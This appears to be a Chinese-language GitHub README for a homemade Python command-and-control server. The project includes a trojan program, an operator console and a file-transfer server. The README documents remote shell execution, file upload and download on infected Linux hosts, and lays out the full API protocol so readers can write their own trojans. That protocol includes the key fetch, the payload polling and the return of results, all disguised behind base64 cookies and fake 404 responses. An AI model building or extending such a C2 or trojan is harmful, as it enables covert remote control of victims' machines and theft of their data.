




# README
# **介绍**
这是一个由 Python3.7.3 编写的轻量级，便捷式的针对Linux的 C2 服务器程序，它采用 flask 框架来实现 web 数据交互，使用 socketserver 框架实现文件数据上传和下载，目前功能较少，主要是开发者没时间了，要去混口饭吃了，如果后期有时间我会添加一些新功能，也欢迎大家 fork 然后修改出自己想要的版本

# **文件结构**
trojan.py    木马程序，如果要使用要修改里面的IP地址和端口

client.py    控制端程序，依赖 lib/basecli.py 文件，配置文件使用的是 settings.py

server.py    服务器程序，依赖 lib/baseser.py 文件，配置文件使用的是 settings.py

fileserver.py    文件上传下载服务器程序

start.py    可以运行此脚本来快速搭建服务

# **注意**
1、在运行时一定要配置好 settings.py 文件，否则可能会出现莫名奇妙的问题

2、运行之后，fileserver.py 要占用 60000 号端口来提供服务，请保证此端口正常

3、此程序目前主要支持上线 Linux 的机器，如果是 Windows 有可能会出现一些问题

4、此程序目前只支持 系统命令执行(如果没有回显的命令可能会报执行错误，可以自行忽略)、文件上传、文件下载

5、运行之后如果出现问题可以使用 ps -aux | grep server.py 来查看其进程号然后 kill -9 进程号 来杀掉进程

6、正常运行后，应该可以看到 server.py 和 fileserver.py 在运行

7、下载的文件默认存放在 downfile 文件夹里面

8、本程序使用了 API 的形式来交互数据，所以使用者可以根据提示，自己用自己喜欢的编程语言来开发木马和控制端


# **控制端操作**
```Plain Text
        查看当前上线主机

            getlive

        对上线主机进行操作

            set 主机ID 操作[shell,time,uploadfile,downfile,del] 参数

            例：
              set 主机ID shell 你要执行的系统命令
              set 主机ID time 你要设定的时间(如果时间小于零则默认设置为10)
              set 主机ID uploadfile 要上传的文件路径 目标路径
              set 主机ID downfile 目标文件路径
              set 主机ID del(删除主机)

        查看帮助
            help

        要退出请按两次 ctrl + c
```


# 木马开发流程
该C2服务器是采用 flask 加 socketserver 框架来做的，flask 用来做 API 接口，socketserver 用来做文件传输的中间代理

API 接口的数据接收和分发主要是通过 json 数据格式

### **注意:木马要上线成功就要执行一次 getlive**


# **获取秘钥**
**请求地址：http://你的服务器IP地址:端口/getkeys**

**响应头**

Cookie:base64密文，即秘钥

响应状态码：404



解密后的 base64 密文格式为 json 序列化的字典数据

```json
{"key": "对应的随机md5值"}
```


# **请求 payload **
**请求地址：http://你的服务器IP地址:端口/getpayloads**

**请求头**

Cookie:cid=获取到的随机秘钥

**响应头**

Cookie:base64密文

响应状态码：404



解密后的 base64 密文格式为 json 序列化的字典数据

```json
{"data": {"sleeptime": "", "cdm": "getlive"}}
```
 sleeptime 为沉睡时间，如客户端不设定为空，否则为 int 类型

cdm 为要执行的命令，为 str 类型

**如果没有任务要执行，则 payload 为**

```json
{"data": False}
```
**如果客户端控制退出，则 payload 为**

```json
{"data": "exit"}
```


# **返回执行结果**
**请求地址：http://你的服务器IP地址:端口/addrst**

**请求头**

Cookie:cid=随机秘钥

**请求体**

主体信息

```json
{"localuser": "pkcn", "sys_info": "Linux-5.10.0-amd64-desktop-x86_64-with-uos-20-plum", "local_ip": "10.99.94.163", "cdm": "getlive", "data": "命令执行结果，如果是getlive则为空"}
```
以下的 base64 密文内容就是上面的内容

```json
{'data': "b'eyJsb2NhbHVzZXIiOiAicGtjbiIsICJzeXNfaW5mbyI6ICJMaW51eC01LjEwLjAtYW1kNjQtZGVza3RvcC14ODZfNjQtd2l0aC11b3MtMjAtcGx1bSIsICJsb2NhbF9pcCI6ICIxMC45OS45NC4xNjMiLCAiY2RtIjogImdldGxpdmUiLCAiZGF0YSI6ICIifQ=='"}
```
**响应头**

状态码：404




# **关于文件操作**
### **详情请看实例木马，里面有详细的说明**